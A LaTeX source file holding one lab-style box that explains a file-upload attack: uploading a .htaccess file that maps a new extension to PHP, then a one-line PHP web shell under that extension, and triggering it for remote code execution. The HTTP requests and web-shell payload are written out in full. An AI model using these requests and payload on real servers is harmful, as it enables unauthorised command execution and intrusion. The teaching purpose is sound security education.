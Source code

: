 \documentclass[11pt]{article}
\begin{document}
\begin{labbox}{Lab pattern: overriding server config via a malicious .htaccess file}
Step 1 -- upload the \texttt{.htaccess} file itself through the normal upload form, disguised with an allowed-looking name or content type:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
 
------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain
 
AddType application/x-httpd-php .rce
------WebKitFormBoundary--
\end{lstlisting}
This succeeds if the application only checks the extension of the \emph{payload} files it expects (images, PDFs, etc.) and never anticipated a configuration file being uploaded at all -- \texttt{.htaccess} has no extension for a blacklist to catch, and its content is plain text, so content-based checks looking for image signatures will not flag it either.
 
Step 2 -- once \texttt{.htaccess} is sitting in the same directory as the uploaded files, upload the actual payload with the newly mapped extension:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Length: 214
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
 
------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="exploit.rce"
Content-Type: image/jpeg
 
<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}
The extension \texttt{.rce} means nothing to the blacklist, so the file is accepted. But because of the directive planted in step 1, Apache now treats any \texttt{.rce} file in that directory as PHP.
 
Step 3 -- request the uploaded file directly to trigger execution:
\begin{lstlisting}[language=http]
GET /files/avatars/exploit.rce?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}
The response returns the output of \texttt{id}, confirming that the ``image'' is actually being executed as a PHP script -- full remote code execution achieved purely through a configuration-file upload, with no need to smuggle a dangerous extension past the blacklist at all.
\end{labbox}
\end{document}
